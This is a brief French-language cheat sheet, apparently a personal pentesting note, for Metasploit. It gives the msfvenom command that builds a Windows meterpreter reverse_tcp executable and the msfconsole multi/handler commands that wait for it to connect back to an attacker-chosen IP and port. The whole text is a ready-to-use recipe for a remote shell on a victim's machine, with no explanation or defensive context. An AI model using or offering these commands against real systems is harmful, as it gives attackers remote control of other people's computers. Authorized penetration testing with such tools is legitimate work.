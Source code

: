 # msfconsole

### Créer un _meterpreter_

```
/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

### Attendre la connexion d'un _meterpreter_

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```
